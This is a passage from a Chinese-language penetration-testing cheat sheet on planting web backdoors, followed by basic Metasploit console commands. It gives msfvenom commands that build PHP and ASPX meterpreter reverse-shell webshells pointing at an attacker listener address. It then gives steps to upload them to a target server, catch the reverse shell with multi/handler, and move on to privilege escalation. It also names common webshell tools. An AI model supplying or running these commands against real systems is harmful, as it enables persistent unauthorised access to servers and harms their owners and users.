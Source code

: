 2.Web后门(WebShell)
```bash
# 中国菜刀，AntSword， Cknife， 冰蝎，Weevely(kali使用最多，但是只支持php)，msf也有自带的后门

##### 1. Meterpreter 后门
msf中有一个叫 php meterpreter 的payload，里哟你他可以创建具有Meterpreter功能的php webshell
# 使用msfvenom创建一个webshell
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.106 LPORT=1234 -f raw > p.php
# 上传webshell到目标机器
# 本机运行 msf multi-handler 开始监听
use exploit/multi/handlers
set payload php/meterpreter/reverse_tcp
...
run
# 访问webshell页面
# 获得反弹的 Metasploit Shell



##### 2. Aspx Meterpreter 后门
msf下的 shell_reverse_tcp 的payload，可以创建多个版本的具有meterpreter功能的Shellcode
这里以aspx为例, 步骤和上面的那个大致相同
show payloads
use windows/shell_reverse_tcp
set ...
save

generate -h  # 查看帮助
generate -t aspx  # 生成aspx版本的ShellCode
# 保存内容到x.aspx，上传到服务器
# 本地设置监听
use exploit/multi/handlers
set payload windows/meterpreter/reverse_tcp
...
run
# 访问webshell页面
# 获得反弹的 Metasploit Shell
后续就可以进行提权等操作了
```



------------------


#### msf基础命令
```bash
search ms17  # 查找
use exploit/multi/handler    # 使用
info    # 查看信息
show expoits/payloads/options    # 显示可用信息
exploit /run    # 执行
back    # 返回上一级
exploit -j     # 后台运行
sessions    # 查看当前可用会话
session -i 1  # 连接某个会话
sessions -K    # 杀死所有活跃会话
```
